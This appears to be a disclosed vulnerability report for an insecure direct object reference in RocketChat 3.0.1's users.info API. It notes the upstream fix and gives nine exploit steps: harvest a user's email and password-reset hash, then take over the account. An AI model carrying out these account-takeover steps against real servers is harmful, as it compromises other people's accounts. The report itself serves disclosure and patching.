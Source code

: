 # RocketChat

Application: RocketChat 3.0.1 (web)
Weakness:	Insecure Direct Object Reference (IDOR)
Reported Date: Apr 7, 2020
Disclosed Date:	June 14, 2020

# What was the Problem?
I find user reset password hash info and other security info on "/api/v1/users.info" with low level user 

# Impact
account takeover

# How do I fix it?:
rocketchat has a fix for this: https://github.com/RocketChat/Rocket.Chat/pull/17238

update your application

# Exploit:
note1: I login on rocketchat with ldap account (my role : user)

note2: in request "https://target/api/v1/users.info?username=[x]" you should change username to userId

1- please login with user ldap account (role user)

2- send a request to https://target/api/v1/users.list and copy _id value

3- send a request to https://target/api/v1/users.info?userId=[userId] and copy email value (in response you can see important security information )

4- logout and click "forget your password" link on https://target/home and send an email to above email address that you copied

5- login with Your account and send a request to https://target/api/v1/users.list and search the same email in response and copy _id value

6- send a request to https://target/api/v1/users.info?userId=[userId] and copy reset hash value

7- logout your account and send a request to https://target/reset-password/[reset_hash]

8- set new password

9- login and enjoy
